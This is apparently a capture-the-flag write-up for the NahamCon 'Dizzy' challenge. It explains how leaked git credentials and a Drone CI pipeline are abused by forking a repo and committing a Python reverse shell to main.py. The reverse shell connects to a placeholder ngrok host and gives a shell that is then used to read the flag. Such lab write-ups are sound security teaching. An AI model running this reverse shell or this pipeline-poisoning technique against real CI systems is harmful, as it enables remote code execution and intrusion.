 # Dizzy

> Someone leaked their git credentials (developer:2!W4S5J$6e). Can you get in?
> 
> This challenge uses vhosts.
> Visit git.challenge.nahamcon.com:[YOUR_PORT]
> Visit drone.challenge.nahamcon.com:[YOUR_PORT]

This is very similar to the RaaS challenge, but with a few differences. Instead of doing a simple command injection, this time we will upload some actual bad code to the repo.


Start by logging in to the Git repo. Observe the Drone CI/CD pipeline definition file `.drone.yml`:
```
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: test
    commands:
      - python -m venv env
      - . ./env/bin/activate
      - pip install -r requirements.txt --extra-index-url http://localhost:8000 --trusted-host 127.0.0.1
      - python main.py
---
kind: signature
hmac: 80e282d0f78104e9d3b003116add30996c7fb927feba936f3e8b83a4a4b5ca47

...
```

Clearly no command injection we can leverage here, but the pipeline includes a step to run `main.py`. 

1. As the repo has branch protection turned on, fork it to our own.
2. Add the droneci user as a collaborator on our forked repo.
3. Go to DroneCI home page and refresh, after step #2 we should see our forked repo listed. Make sure it's enabled.
4. Change code in `main.py` to include a reverse shell (see below) and commit
5. Pipeline should run. Observe outpus:

```
+ python -m venv env
+ . ./env/bin/activate
+ pip install -r requirements.txt --extra-index-url http://localhost:8000 --trusted-host 127.0.0.1
Looking in indexes: https://pypi.org/simple, http://localhost:8000
Collecting calculator_3bbbf94efb2b1945
  Downloading http://localhost:8000/packages/calculator_3bbbf94efb2b1945-0.0.1.tar.gz (1.3 kB)
  Installing build dependencies: started
  Installing build dependencies: finished with status 'done'
  Getting requirements to build wheel: started
  Getting requirements to build wheel: finished with status 'done'
  Preparing metadata (pyproject.toml): started
  Preparing metadata (pyproject.toml): finished with status 'done'
Building wheels for collected packages: calculator_3bbbf94efb2b1945
  Building wheel for calculator_3bbbf94efb2b1945 (pyproject.toml): started
  Building wheel for calculator_3bbbf94efb2b1945 (pyproject.toml): finished with status 'done'
  Created wheel for calculator_3bbbf94efb2b1945: filename=calculator_3bbbf94efb2b1945-0.0.1-py3-none-any.whl size=1821 sha256=7477421fe18f1b6eff8e579df966187f2122d452fbb8ebe07ab074d079c84936
  Stored in directory: /tmp/drone-SVRLqUipdb7oNuXr/home/drone/.cache/pip/wheels/c8/d0/25/d2f4b43d84ee567fef02a1460022c231dbfd8382b180de41dd
Successfully built calculator_3bbbf94efb2b1945
Installing collected packages: calculator_3bbbf94efb2b1945
Successfully installed calculator_3bbbf94efb2b1945-0.0.1
WARNING: You are using pip version 22.0.4; however, version 22.3.1 is available.
You should consider upgrading via the '/tmp/drone-SVRLqUipdb7oNuXr/drone/src/env/bin/python -m pip install --upgrade pip' command.
+ python main.py
```

After `python main.py` runs no output as we have started a reverse shell with below code:
```
import socket;
import os;
import subprocess;
import pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ngrok_host",port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
```

Switching to our netcat term, I can see we have a shell, and then can grab the flag:
```
(env) # ls /
ls /
bin   dev                etc       home  lib64  mnt  port  root  sbin  sys  usr
boot  drone-runner-exec  flag.txt  lib   media  opt  proc  run   srv   tmp  var
(env) # cat /flag.txt
cat /flag.txt
flag{12c7f
```

Our reverse shell will live as long as the timeout is for the pipeline; I believe default DroneCI value is 60 minutes.

Thanks again to congon4tor for the challenge!

